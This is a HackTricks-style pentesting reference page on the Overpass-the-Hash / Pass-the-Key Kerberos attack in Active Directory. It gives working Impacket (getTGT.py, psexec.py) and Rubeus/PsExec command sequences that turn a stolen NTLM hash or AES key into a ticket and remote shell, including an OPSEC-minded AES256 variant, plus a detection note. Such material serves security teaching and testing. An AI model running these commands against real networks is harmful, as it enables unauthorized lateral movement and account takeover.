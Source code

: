 # Over Pass the Hash/Pass the Key

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Overpass The Hash/Pass The Key (PTK)

The **Overpass The Hash/Pass The Key (PTK)** attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

The process can be initiated with the following commands:

```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

For scenarios necessitating AES256, the `-aesKey [AES key]` option can be utilized. Moreover, the acquired ticket might be employed with various tools, including smbexec.py or wmiexec.py, broadening the scope of the attack.

Encountered issues such as _PyAsn1Error_ or _KDC cannot find the name_ are typically resolved by updating the Impacket library or using the hostname instead of the IP address, ensuring compatibility with the Kerberos KDC.

An alternative command sequence using Rubeus.exe demonstrates another facet of this technique:

```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```

This method mirrors the **Pass the Key** approach, with a focus on commandeering and utilizing the ticket directly for authentication purposes. It's crucial to note that the initiation of a TGT request triggers event `4768: A Kerberos authentication ticket (TGT) was requested`, signifying an RC4-HMAC usage by default, though modern Windows systems prefer AES256.

To conform to operational security and use AES256, the following command can be applied:

```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```

## References

- [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{{#include ../../banners/hacktricks-training.md}}

